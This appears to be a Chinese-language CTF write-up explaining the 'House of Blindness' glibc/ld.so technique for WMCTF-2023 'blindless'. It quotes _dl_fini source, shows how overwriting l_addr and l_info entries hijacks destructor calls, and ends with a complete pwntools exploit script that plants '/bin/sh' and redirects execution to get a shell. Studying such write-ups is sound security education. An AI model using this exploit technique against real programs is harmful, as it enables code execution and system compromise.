 ```yaml
---
title: GLIBC - exploitation-in-latest-glibc-0x01 House of Blindness
date: 2023-09-25 23:04:22
tags:
  - Glibc
---
```


# TLDR;

House of blindless 是一个涉及到 rtld 的利用方法，事实上 ld.so 里面确实还有很多被利用的潜力，后面涉及到 glibc 的比赛题目可能也会偏向于考察这部分内容。

直接以 `WMCTF-2023-blindless` 为例，附件链接：

[attachment](https://drive.google.com/file/d/1AF3JrobITUa0dj_bfVrcMBJXOQIJgM86/view?usp=sharing)

# Analysis

程序漏洞：

给了一个类似 bf 的 vm 程序，不过难得的逻辑很简单，可以实现在堆地址上加偏移的任意地址写，但是没有泄漏，这很明显需要某种 HOUSE 来打，这里考虑到 `house of blindless`：

低字节覆盖 `l->l_addr` 和 `l->l_info[DT_FINI_ARRAY/DT_FINI]->d_un.d_ptr`，即可调用 elf 中的任意函数，要求：

- 能够实现 elf 或 libc 范围内的任意地址写（本题可以分配大型堆块到 libc 前，进而实现 libc 范围内的任意写）

- 程序正常退出

参考到 ld.so 源码，elf/dl-fini.c 中的 \_dl_fini() 函数中：

```c
/* 其中关键定义如下： */
#define DT_INIT 12
#define DT_FINI 13
#define DT_FINI_ARRAY 26

/* Is there a destructor function?  */
if (l->l_info[DT_FINI_ARRAY] != NULL || l->l_info[DT_FINI] != NULL)
{
    /* When debugging print a message first.  */
    if (__builtin_expect (GLRO(dl_debug_mask) & DL_DEBUG_IMPCALLS, 0))
        _dl_debug_printf ("\ncalling fini: %s [%lu]\n\n",
                          DSO_FILENAME (l->l_name),
                          ns);

    /* First see whether an array is given.  */
    if (l->l_info[DT_FINI_ARRAY] != NULL) // 分支1
    {
        ElfW(Addr) *array =
            (ElfW(Addr) *) (l->l_addr + l->l_info[DT_FINI_ARRAY]->d_un.d_ptr);
        unsigned int i = (l->l_info[DT_FINI_ARRAYSZ]->d_un.d_val / sizeof (ElfW(Addr)));
        while (i-- > 0)
            ((fini_t) array[i]) ();
    }

    /* Next try the old-style destructor.  */
    if (l->l_info[DT_FINI] != NULL) // 分支2
        DL_CALL_DT_FINI (l, l->l_addr + l->l_info[DT_FINI]->d_un.d_ptr);
}
```

这里有两条分支，要劫持控制流就需要到达控制 `l->l_info[26] == 0` 绕过分支1，接下来分为能控制 elf+libc 和 仅能控制 libc 的两种情况：

**控制 elf+libc**：

> 由于能控制 elf，就可以改到 l->l_info[DT_FINI] 上具体的值，进而直接在 l_addr 的基础上进行任意 elf 地址调用。

```c
l->l_info[13]->d_un.d_ptr = <target> - elf_base;
l->l_info[26] = 0;
/* 通过控制 _rtld_global+2312 来控制第一个参数 */
```

**若仅能控制 libc**：

```c
/* 在 l->l_info[13] 附近找到其他 Elf64_Dyn 类型结构体，且其 d_un.d_ptr 正好满足我们需求 */
*(char *)l->l_addr = <target> & 0xff // 改写低位
l->l_info[26] = 0;
/* 通过控制 _rtld_global+2312 来控制第一个参数 */
```

---

# Exploitation

于是利用第二种思路得到本题 exp：

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
#   expBy : @eastXueLian
#   Debug : ./exp.py debug  ./pwn -t -b b+0xabcd
#   Remote: ./exp.py remote ./pwn ip:port

from lianpwn import *
from pwncli import *

cli_script()
set_remote_libc("libc.so.6")

io: tube = gift.io
elf: ELF = gift.elf
libc: ELF = gift.libc

# one_gadgets: list = get_current_one_gadget_from_libc(more=False)
CurrentGadgets.set_find_area(find_in_elf=True, find_in_libc=False, do_initial=False)


payload = b""


def go_forward(distance):
    global payload
    payload += b"@"
    payload += p32(distance)


def next_byte():
    global payload
    payload += b">"


def next_long():
    global payload
    payload += b"+"


def change_byte(data):
    global payload
    lg("data", data)
    payload += b"."
    payload += p8(data)


def edit(data):
    global payload
    for i in range(len(data)):
        change_byte(data[i])
        next_byte()


DT_FINI = 13
DT_INIT = 12
DT_FINI_ARRAY = 26
_rtld_global_to_chunk = 0x323060
arg0 = _rtld_global_to_chunk + 2312
l_addr = 0x324190


go_forward(arg0 - 0x10)
edit(b"/bin/sh\x00")
go_forward(l_addr - arg0 - 8)
edit(p8(0xE0))
go_forward(0xA8 - 1)
edit(p8(0xA8))
go_forward(0x68 - 1)
edit(p64(0))

payload += b"q"

ru(b"Pls input the data size\n")
sl(i2b(0x100000))
ru(b"Pls input the code size\n")
sl(i2b(0x100))
ru(b"Pls input your code\n")
s(payload)

ia()
```
